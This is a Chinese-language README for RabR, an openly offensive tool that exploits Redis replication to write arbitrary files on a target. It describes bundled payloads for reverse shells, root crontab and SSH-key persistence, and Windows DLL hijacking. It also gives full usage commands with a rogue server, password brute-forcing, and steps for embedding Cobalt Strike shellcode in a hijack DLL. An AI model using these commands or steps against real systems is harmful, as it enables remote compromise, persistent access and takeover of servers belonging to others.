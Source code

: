 # RabR 

Redis-Attack By Replication (通过主从复制攻击Redis)   

- 攻击Linux下的Redis，可执行命令和反弹shell
- 攻击Window x64下的Redis，可执行命令 

本工具基于**Ridter**师傅的[**redis-rce**](https://github.com/Ridter/redis-rce) 进行修改。  

## 声明
本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。

## 原理
Redis从2.8开始，就支持主从复制功能。     

这个功能存在脆弱的地方：主从复制中，Redis从机会将Redis主机的数据库文件同步到本地的数据库文件，并检验其是否为RDP格式，但如果不是RDP格式也不会删除。   
所以我们只要将主从复制传输中的数据库文件，替换为我们自己的数据，就可以将我们自己的数据原封不动的写入到Redis从机的数据库文件中，而这个数据库文件的名字也可以通过Redis从机进行修改。  
**这就意味着我们可以将任意文件写入到目标Redis权限下的任意路径**。    

## 特点
- 本工具利用这个Redis的脆弱性，对Linux下的Redis进行module攻击、crontab写入攻击和ssh公钥写入攻击，对Windows下的Redis进行module攻击和dll劫持攻击。  
- 本工具默认使用的Linux恶意模块：exp/linux/exp.so，源码来自于：[**RedisModules-ExecuteCommand** ](https://github.com/puckiestyle/RedisModules-ExecuteCommand ), 该模块实现了执行单条命令和反弹shell的功能，你也可以编写自己的模块。    
- 本工具默认使用的crontab文件：exp/linux/exp.crontab，使用前务必根据自己实际的需求进行修改，或者直接通过命令行设置自己的crontab文件。  
- 本工具默认使用的ssh公钥文件：exp/linux/exp.authorized_keys，使用前务必自己重新生成以替换，或者直接通过命令行设置自己的ssh公钥文件。  
- 本工具默认使用的Windows恶意模块：exp/win/exp.dll，源码来自于：[**RedisModules-ExecuteCommand-for-Windows** ](https://github.com/0671/RedisModules-ExecuteCommand-for-Windows ), 该模块实现了执行命令的功能，你也可以编写自己的模块。  
- 本工具默认使用的用于劫持的恶意dll：exp/win/exp.dll，是通过 [**DLLHijacker** ](https://github.com/kiwings/DLLHijacker )+ **Winx64下的dbghelp.dll**编译生成的，该dll会执行calc，你也可以编译自己的dbghelp.dll。  
- 本工具有爆破功能，默认密码字典位于pwd.txt中，也可自定义字典文件。  
- 本工具在攻击前会备份目标Redis的数据，在攻击结束后会进行恢复，使用的工具为[**redis-dump-go**](https://github.com/yannh/redis-dump-go )。默认是开启的，可以关闭。  

## 结构
```  
│  redis-attack.py 攻击主程序
│  pwd.txt 爆破字典
├─exp
│  ├─linux
│  │      exp.authorized_keys 默认写入的Linux下的ssh公钥文件，用前需要修改
│  │      exp.crontab 默认写入的Linux下的crontab定时任务文件，用前需要修改
│  │      exp.so 默认导入的Linux Redis模块
│  └─win
│          dbghelp.dll 默认用于劫持Redis的dll
│          exp.dll 默认导入的Windows Redis模块
└─util 有用的程序（用于保存Redis数据） 
```

## 用法   
运行环境：python3
```
usage: python redis-attack.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-wf WINFILE] [-wf WINFILE2] [-lf LINUXFILE] [-lf2 LINUXFILE2] [-lf3 LINUXFILE3] [-a AUTH] [--brute] [-v]
Example:
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 --brute
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 -P 80 -b mypwd.txt -i
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 -lf3 id_rsa

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 16379
  -wf WINFILE, --winfile WINFILE
                        Dll Used to hijack redis, default exp/win/dbghelp.dll
  -wf2 WINFILE2, --winfile2 WINFILE2
                        RedisModules(win) to load, default exp/win/exp.dll
  -lf LINUXFILE, --linuxfile LINUXFILE
                        RedisModules(linux) to load, default exp/linux/exp.so
  -lf2 LINUXFILE2, --linuxfile2 LINUXFILE2
                        Crontab file used to attack linux(/var/spool/cron/root), default exp/linux/exp.crontab(must be
                        modified before use)
  -lf3 LINUXFILE3, --linuxfile3 LINUXFILE3
                        SSH id_rsa.pub file used to attack linux(/root/.ssh/authorized_keys), use `ssh-keygen -t rsa`
                        to generate, default exp/linux/exp.authorized_keys(empty file, must be modified before use)
  -a AUTH, --auth AUTH  redis password
  -b [BRUTE], --brute [BRUTE]
                        If redis needs to verify the password, perform a brute force attack, dict default pwd.txt
  -i, --idontcare       don't care about the data on the target redis
  -v, --verbose         show more info
```

![image-20210708212712502](pic/image-20210708212712502.png)
![image-20210708190457889](pic/image-20210708190457889.png)
![image-20210708213302932](pic/image-20210708213302932.png)

## 进一步  
劫持Windows x64下的dbghelp.dll的具体方法：  
1）[DLLHijacker](https://github.com/kiwings/DLLHijacker) +目标Redis的系统版本的dbghelp.dll， 生成vs项目。  
2）vs项目修改：   
```
1、将dllmain.c中 shellcode_calc[] 的值替换为cs生成的shellcode   
2、为了避免只能劫持1次dll，在dllmain.cpp的 Hijack();后增加 FreeLibrary(hModule);  
3、修改活动解决方案为Realease，x64  
4、修改项目属性的sdk版本、平台工具集为本地vs可用的值  
```
3）编译生成恶意dbghelp.dll，复制到本工具目录下。    
4）使用本工具执行攻击。  

## 时间线  
```  
2021.07.03 发布v0.5  
2021.07.08 发布v0.6,增加了Windows模块攻击  
2021.07.08 发布v0.6.3,增加了针对Linux的crontab写入攻击、ssh公钥写入攻击  
```


## 感谢  
本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！！非常感谢某群大佬分享的关键词(很重要)！！非常感谢！！  
帮助到我的文章与工具包括但不限于：  
 [Redis on Windows 出网利用探索](https://xz.aliyun.com/t/8153)  
 [Redis On Windows -- Dll Hijack](https://jkme.github.io/redis-on-windows-dll-hijack.html)  
 [DLLHijacker](https://github.com/kiwings/DLLHijacker)  
 [redis-rce](https://github.com/Ridter/redis-rce)  
 [RedisWriteFile](https://github.com/r35tart/RedisWriteFile)  
 [redis-dump-go](https://github.com/yannh/redis-dump-go)  
 [浅析Linux下Redis的攻击面(一)](https://xz.aliyun.com/t/7974)  

## 反馈  
Mail：h.vi@qq.com   
或者[issue](https://github.com/0671/RabR/issues/new)、PR    
